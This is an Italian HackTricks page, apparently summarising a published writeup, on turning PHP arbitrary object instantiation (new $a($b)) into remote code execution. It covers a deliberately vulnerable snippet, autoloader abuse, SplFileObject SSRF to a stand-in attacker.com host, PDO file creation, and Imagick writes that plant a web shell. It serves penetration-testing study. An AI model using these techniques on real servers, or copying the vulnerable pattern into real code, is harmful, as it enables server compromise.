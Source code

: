 # PHP - RCE abusando della creazione di oggetti: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

Questo è fondamentalmente un riassunto di [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introduzione

La creazione di nuovi oggetti arbitrari, come `new $_GET["a"]($_GET["a"])`, può portare a Remote Code Execution (RCE), come dettagliato in un [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Questo documento evidenzia varie strategie per ottenere RCE.

## RCE tramite Classi Personalizzate o Autoloading

La sintassi `new $a($b)` viene utilizzata per istanziare un oggetto dove **`$a`** rappresenta il nome della classe e **`$b`** è il primo argomento passato al costruttore. Queste variabili possono provenire da input dell'utente come GET/POST, dove possono essere stringhe o array, o da JSON, dove potrebbero presentarsi come altri tipi.

Considera il frammento di codice qui sotto:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
In questo caso, impostare `$a` su `App` o `App2` e `$b` su un comando di sistema (ad es., `uname -a`) porta all'esecuzione di quel comando.

**Le funzioni di autoloading** possono essere sfruttate se non ci sono classi del genere direttamente accessibili. Queste funzioni caricano automaticamente le classi dai file quando necessario e sono definite utilizzando `spl_autoload_register` o `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Il comportamento del caricamento automatico varia con le versioni di PHP, offrendo diverse possibilità di RCE.

## RCE tramite Classi Incorporate

In assenza di classi personalizzate o caricatori automatici, **le classi incorporate di PHP** possono essere sufficienti per RCE. Il numero di queste classi varia tra 100 e 200, a seconda della versione di PHP e delle estensioni. Possono essere elencate utilizzando `get_declared_classes()`.

I costruttori di interesse possono essere identificati tramite l'API di riflessione, come mostrato nel seguente esempio e nel link [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE tramite metodi specifici include:**

### **SSRF + Deserializzazione Phar**

La classe `SplFileObject` consente SSRF tramite il suo costruttore, permettendo connessioni a qualsiasi URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF può portare a attacchi di deserializzazione nelle versioni di PHP precedenti alla 8.0 utilizzando il protocollo Phar.

### **Sfruttare i PDO**

Il costruttore della classe PDO consente connessioni a database tramite stringhe DSN, potenzialmente abilitando la creazione di file o altre interazioni:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Le versioni di PHP fino alla 5.3.22 e 5.4.12 erano suscettibili ad attacchi XXE attraverso i costruttori `SoapClient` e `SimpleXMLElement`, a seconda della versione di libxml2.

## RCE tramite estensione Imagick

Nell'analisi delle **dipendenze di un progetto**, è stato scoperto che **Imagick** poteva essere sfruttato per **l'esecuzione di comandi** istanziando nuovi oggetti. Questo presenta un'opportunità per sfruttare vulnerabilità.

### Parser VID

È stata identificata la capacità del parser VID di scrivere contenuti in qualsiasi percorso specificato nel filesystem. Questo potrebbe portare al posizionamento di una shell PHP in una directory accessibile via web, ottenendo l'Esecuzione Remota di Codice (RCE).

#### Parser VID + Caricamento File

Si nota che PHP memorizza temporaneamente i file caricati in `/tmp/phpXXXXXX`. Il parser VID in Imagick, utilizzando il protocollo **msl**, può gestire caratteri jolly nei percorsi dei file, facilitando il trasferimento del file temporaneo in una posizione scelta. Questo metodo offre un ulteriore approccio per ottenere la scrittura arbitraria di file all'interno del filesystem.

### Crash PHP + Forza Bruta

Un metodo descritto nel [**writeup originale**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) prevede il caricamento di file che attivano un crash del server prima della cancellazione. Forzando il nome del file temporaneo, diventa possibile per Imagick eseguire codice PHP arbitrario. Tuttavia, questa tecnica è stata trovata efficace solo in una versione obsoleta di ImageMagick.

## Riferimenti

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
